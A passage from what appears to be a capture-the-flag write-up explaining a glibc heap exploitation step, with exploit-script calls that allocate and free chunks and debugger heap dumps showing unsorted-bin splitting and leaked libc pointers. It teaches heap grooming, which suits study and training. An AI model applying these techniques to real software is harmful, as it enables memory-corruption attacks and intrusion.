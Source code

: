 Here's where hk pulls out the heap ninja skills.

```py
alloc(0, 0x500, 'hk')
alloc(2, 0x500, 'hk')

sice(0)
sice(2)
```

We allocate 2 chunks, then immediately free both of them again. This has a pretty cool effect: because chunk 7 (the unsorted-bin chunk) exists and is free, `malloc()` will split parts of that chunk off for allocations 0 and 2. This looks like this, afterward:

```
Allocated chunk | PREV_INUSE
Addr: 0x557b358bb4b0
Size: 0x511

Allocated chunk | PREV_INUSE
Addr: 0x557b358bb9c0
Size: 0x511

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x557b358bbed0
Size: 0x15f1
fd: 0x7effd671dbe0
bk: 0x7effd671dbe0

```

Notice the size of the `unsorted` chunk. Some math will show you that:

```py
>>> hex(0x2010 - 0x510 - 0x510)
'0x15f0'
>>>
```

This chunk has, in fact had pieces torn off and used for allocations 0 and 2. Specifically notice the last 3 nibbles of the original chunk 7, when compared with the first new allocation. Do you see it ;).

Now when these chunks are free'd again, they are handed back to the `unsorted` chunk again:

```
Allocated chunk | PREV_INUSE
Addr: 0x558e41484000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x558e41484290
Size: 0x221

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x558e414844b0
Size: 0x2011
fd: 0x7fce8c28cbe0
bk: 0x7fce8c28cbe0

Free chunk (tcache)
Addr: 0x558e414864c0
Size: 0x110
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x558e414865d0
Size: 0x111

```